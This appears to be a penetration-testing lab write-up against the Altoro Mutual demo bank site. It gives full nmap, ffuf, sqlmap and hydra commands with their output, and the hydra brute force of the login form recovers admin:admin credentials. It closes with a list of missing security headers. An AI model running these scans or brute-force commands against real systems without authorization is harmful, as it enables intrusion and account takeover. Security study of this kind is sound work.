








# AltoroMutual

# Picking the targets

1. Http: [demo.testfire.net](http://demo.testfire.net/)
2. Https: [juice-shop.herokuapp.com](https://juice-shop.herokuapp.com/)

# Enumeration

## Nmap demo.testfire.net

```jsx
$ nmap -T5 -sC -sV -Pn demo.testfire.net
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-17 13:04 CEST
Nmap scan report for demo.testfire.net (65.61.137.117)
Host is up (0.26s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
80/tcp   open   http       Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Altoro Mutual
|_http-server-header: Apache-Coyote/1.1
443/tcp  open   ssl/https?
| ssl-cert: Subject: commonName=demo.testfire.net
| Subject Alternative Name: DNS:demo.testfire.net
| Not valid before: 2025-05-21T00:00:00
|_Not valid after:  2026-06-21T23:59:59
|_ssl-date: 2026-04-17T11:04:56+00:00; 0s from scanner time.
8080/tcp open   http       Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Altoro Mutual
8443/tcp closed https-alt

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.97 seconds

```

# Enumerating port 80 (http)



## Fuff scan

```jsx
$ ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://demo.testfire.net/FUZZ -e .php
 admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 197ms]
static                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 626ms]
pr                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 218ms]
util                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 203ms]
bank                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 427ms]
con                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 161ms]
                        [Status: 200, Size: 9405, Words: 1370, Lines: 179, Duration: 163ms]
aux                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 646ms]

```

## Looking at the functionality of the website



#### Testing LFI.



#### LFI not confirmed but we can see the version of the Apache.

`Apache Tomcat/7.0.92`

Potencial vulns. After some research I found that this version might have some xss injections.

[https://www.cvedetails.com/version/786657/Apache-Tomcat-7.0.92.html](https://www.cvedetails.com/version/786657/Apache-Tomcat-7.0.92.html)

### I see in the top right a Search option. I will use SqlMap to see if there is any Sql injection

```jsx
$ sqlmap -u "http://demo.testfire.net/search.jsp?query=dsaf" --batch                                                          
        ___                                                                                                                    
       __H__                                                                                                                   
 ___ ___["]_____ ___ ___  {1.8.4#stable}                                                                                       
|_ -| . [(]     | .'| . |                                                                                                      
|___|_  [.]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   
                                                                                                                               
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's respo
nsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any 
misuse or damage caused by this program                                                                                        
                                                                                                                               
[*] starting @ 13:49:55 /2026-04-17/                                                                                           
                                                                                                                               
[13:49:55] [INFO] testing connection to the target URL                                                                         
you have not declared cookie(s), while server wants to set its own ('JSESSIONID=625D7D237A7...EAB62F53DC'). Do you want to use 
those [Y/n] Y                                                                                                                  
[13:49:56] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:49:56] [INFO] testing if the target URL content is stable
[13:49:57] [INFO] target URL content is stable
[13:49:57] [INFO] testing if GET parameter 'query' is dynamic
[13:49:57] [WARNING] GET parameter 'query' does not appear to be dynamic
[13:49:57] [WARNING] heuristic (basic) test shows that GET parameter 'query' might not be injectable
[13:49:57] [INFO] heuristic (XSS) test shows that GET parameter 'query' might be vulnerable to cross-site scripting (XSS) attacks
[13:49:57] [INFO] testing for SQL injection on GET parameter 'query'
[13:49:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:49:58] [WARNING] reflective value(s) found and filtering out                                                               
[13:50:00] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'                                           
[13:50:01] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'           
[13:50:03] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'                                                
[13:50:05] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                          
[13:50:06] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[13:50:08] [INFO] testing 'Generic inline queries'
[13:50:08] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[13:50:09] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[13:50:10] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:50:12] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:50:13] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[13:50:15] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[13:50:17] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want
 to reduce the number of requests? [Y/n] Y
[13:50:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:50:30] [WARNING] GET parameter 'query' does not seem to be injectable
[13:50:30] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' optio
ns if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe 
you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

Nothing found about Sql here.

### I looked at the pages I found with fuff.



Admin redirect us to a log in page.

## Brute forcing the login

I just typed `admin: admin` and it worked but I did it using hydra as well.

I used caido to see the request to make the hydra syntax:



```jsx
$ hydra -l admin -P SecLists/Passwords/xato-net-10-million-passwords-1000000.txt demo.testfire.net http-post-form "/doLogin:uid=^USER^&passw=^PASS^&btnSubmit=Login:F=Login Failed" -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-17 13:39:15
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 999999 login tries (l:1/p:999999), ~15625 tries per task
[DATA] attacking http-post-form://demo.testfire.net:80/doLogin:uid=^USER^&passw=^PASS^&btnSubmit=Login:F=Login Failed
[80][http-post-form] host: demo.testfire.net   login: admin   password: admin
[STATUS] 999999.00 tries/min, 999999 tries in 00:01h, 1 to do in 00:01h, 36 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-17 13:40:55

```

```jsx
admin:admin
```



### As the admin we have full control of the website as we can remove/ add users, we can change and access their account and we can make transactions on their behalf.

# I used some online websites as well to see what else is going wrong.

## Security Headers:



## Qualys SSL Labs:



## Major issues here:

```jsx

Content-Security-Policy	-> Content Security Policy is an effective measure to protect your site from XSS attacks. By whitelisting sources of approved content, you can prevent the browser from loading malicious assets.

X-Frame-Options         ->	X-Frame-Options tells the browser whether you want to allow your site to be framed or not. By preventing a browser from framing your site you can defend against attacks like clickjacking. Recommended value "X-Frame-Options: SAMEORIGIN".

X-Content-Type-Options	-> X-Content-Type-Options stops a browser from trying to MIME-sniff the content type and forces it to stick with the declared content-type. The only valid value for this header is "X-Content-Type-Options: nosniff".

Referrer-Policy	Referrer -> Policy is a new header that allows a site to control how much information the browser includes with navigations away from a document and should be set by all sites.

Permissions-Policy	     -> Permissions Policy is a new header that allows a site to control which features and APIs can be used in the browser.
```